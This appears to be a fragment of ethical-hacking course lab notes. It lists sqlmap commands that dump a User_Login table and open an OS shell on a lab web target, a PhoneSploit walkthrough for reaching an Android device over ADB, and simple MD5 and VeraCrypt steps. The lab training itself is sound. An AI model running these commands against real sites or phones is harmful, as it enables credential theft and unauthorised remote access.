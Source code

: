   - **-D: Specify the DBMS database to enumerate**

  - **--tables: Enumerate DBMS database tables**

- Get a list of tables

- Select a column

- **sqlmap -u \"http://www.moviescope.com/viewprofile.aspx?id=1\"
  > --cookie=\"value\" -D moviescope --T User_Login --dump**

- Get table data of this column

- **sqlmap -u \"http://www.moviescope.com/viewprofile.aspx?id=1\"
  > --cookie=\"value\" --os-shell**

- Get the OS Shell

- TASKLIST

**Module 17: Hacking Mobile Platforms**

**Lab 1-Task 4: Exploit the Android Platform through ADB using
PhoneSploit** - cd Phonesploit - python3 -m pip install colorama -
python3 phonesploit.py - 3 - 10.10.10.14 - 4 - pwd - cd sdcard - cd
Download

**Module 20: Cryptography**

**Lab1-Task2: Calculate MD5 Hashes using MD5 Calculator**

- Nothing special

**Lab4-Task1: Perform Disk Encryption using VeraCrypt**

- Click VeraCrypt

- Create Volumn

- Create an encrypted file container

- Specify a path and file name

- Set password

- Select NAT

- Move the mouse randomly for some seconds, and click Format

- Exit

- Select a drive, select file, open, mount

- Input password

- Dismount

- Exit

**Module Appendix: Covered Tools**

- **Nmap**

  - Multiple Labs
